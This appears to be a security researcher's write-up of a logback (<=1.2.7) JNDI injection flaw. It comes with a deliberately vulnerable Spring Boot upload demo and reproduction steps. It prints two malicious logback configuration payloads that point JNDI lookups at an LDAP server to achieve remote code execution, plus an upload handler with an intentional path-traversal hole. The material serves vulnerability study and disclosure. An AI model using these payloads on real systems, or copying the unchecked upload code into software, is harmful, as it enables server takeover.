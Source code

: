 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE

   # Vulnerability analysis

   ## JNDIConnectionSource

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

   ```xml
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
   </configuration>
   ```
   
   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

   After waiting ten seconds, RCE can be executed successfully

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```
   
   Upload the configuration file:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect
